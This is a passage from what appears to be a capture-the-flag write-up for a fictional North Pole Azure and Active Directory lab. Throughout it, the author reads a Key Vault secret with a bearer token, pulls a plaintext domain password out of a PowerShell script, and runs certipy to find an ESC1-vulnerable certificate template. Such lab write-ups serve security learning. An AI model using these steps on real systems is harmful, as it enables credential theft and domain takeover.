 ```bash
      "tags": {}
    }
  ],
  "nextLink": null
}
```

Success! What's in the script?

```bash
$ curl --header "Authorization: Bearer $bt" "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript/versions?api-version=7.4" | jq
# Version information
$ curl --header "Authorization: Bearer $bt" "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript/d8a14e5339d04b44a20392210c0283fe?api-version=7.4" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   720  100   720    0     0   3886      0 --:--:-- --:--:-- --:--:--  3870
{
  "value": "# Import the Active Directory module Import-Module ActiveDirectory  # Define user properties $UserName = \"elfy\" $UserDomain = \"northpole.local\" $UserUPN = \"$UserName@$UserDomain\" $Password = ConvertTo-SecureString \"J4`ufC49/J4766\" -AsPlainText -Force $DCIP = \"10.0.0.53\"  # Create a new AD user New-ADUser -UserPrincipalName $UserUPN -Name $UserName -GivenName $UserName -Surname \"\" -Enabled $true -AccountPassword $Password -Server $DCIP -PassThru",
  "id": "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript/d8a14e5339d04b44a20392210c0283fe",
  "attributes": {
    "enabled": true,
    "created": 1698673721,
    "updated": 1698673721,
    "recoveryLevel": "Recoverable+Purgeable",
    "recoverableDays": 90
  },
  "tags": {}
}
```

I checked both versions of the script but they seem to be equivalent. Perfect, now we have:

- The Domain Controller's IP: 10.0.0.53
- A Domain user's username: elfy
- Their password: `J4``ufC49/J4766\`
- The domain: northpole.local

And now we can use Alabaster's "impacket" tools! But which one?

Previous hints talked about the [Reportinator](./o4.md) coming in handy, which talked about `certipy`. Hints for this challenge also mentioned certificates, so let's see if it finds any vulnerabilities:

!!! warning "Remember to escape the backtick in the password!

```bash
$ certipy find -vulnerable -dc-ip 10.0.0.53 northpole.local/elfy:J4\`ufC49/J4766
...
 "Template Name": "NorthPoleUsers",
 ...
 "Certificate Authorities": [
        "northpole-npdc01-CA"
      ],
...
 "[!] Vulnerabilities": {
        "ESC1": "'NORTHPOLE.LOCAL\\\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication"

```
